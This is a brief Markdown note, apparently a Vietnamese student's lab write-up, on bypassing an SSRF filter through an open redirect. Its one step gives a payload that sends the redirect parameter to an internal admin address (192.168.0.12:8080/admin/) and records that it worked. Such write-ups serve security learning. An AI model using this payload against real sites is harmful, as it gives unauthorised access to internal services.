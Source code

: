 ## SSRF with filter bypass via open redirection vulnerability

1. Thử với payload ``/product/nextProduct?currentProductId=6&path=http://192.168.0.12:8080/admin/`` thì thành công

![Img1](\asset/../img/done.png)
